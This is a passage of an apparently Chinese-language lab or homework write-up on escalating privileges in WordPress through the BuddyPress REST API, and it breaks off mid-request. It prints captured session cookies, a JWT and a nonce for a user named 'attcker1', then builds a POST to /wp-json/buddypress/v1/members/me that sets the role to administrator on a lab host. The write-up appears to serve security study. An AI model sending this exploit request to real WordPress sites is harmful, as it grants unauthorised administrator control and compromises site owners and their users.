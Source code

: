    ![1747889012605](image/homework/1747889012605.png)
    **cookie:**
        ```
        grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821
        ```
        **X-WP-Nonce:** ``cb16f80772``

3. **构造提权请求**
   - 使用提取的 `X-WP-Nonce` 和 `Cookie` 构造 POST 请求，发送到 `/wp-json/buddypress/v1/members/me`。
   - 请求体如下：
     ```json
     {"roles": "administrator"}
     ```
   - 完整请求包：
        ```http
        POST /wp-json/buddypress/v1/members/me HTTP/1.1

        Host:192.168.20.12:10459

        Upgrade-Insecure-Requests: 1
